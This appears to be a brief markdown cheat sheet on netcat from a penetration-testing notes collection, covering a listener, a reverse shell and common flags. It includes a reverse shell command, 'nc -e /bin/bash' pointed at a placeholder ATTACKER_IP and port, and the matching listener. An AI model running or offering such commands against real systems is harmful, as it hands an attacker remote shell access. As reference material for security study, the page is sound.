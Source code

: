 ```yaml
---
title: NETCAT
summary: A featured networking utility which reads and writes data across network connections.
description: A featured networking utility which reads and writes data across network connections.
---
```


[http://netcat.sourceforge.net/](http://netcat.sourceforge.net/)

## NETCAT Listener


 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener on delected port.

## NETCAT Reverse Shell


 > 
 > **<font color=red>nc -e /bin/bash</font> \[ATTACKER_IP\] \[ATTACKER_PORT\]**</br>
 > Reverse shell. 

## NETCAT Flags


 > 
 > **<font color=red>-l</font>**</br>
 > Listener mode.
 > 
 > **<font color=red>-k</font>**</br>
 > Keep listening after client disconnects.
 > 
 > **<font color=red>-n</font>**</br>
 > No DNS (no more "unknown host").
 > 
 > **<font color=red>-v</font>**</br>
 > Verbose.
 > 
 > **<font color=red>-p</font> 2112**</br>
 > Port.
 > **<font color=red>-z</font>**</br>
 > Netcat will not send data (scan for listening daemons).
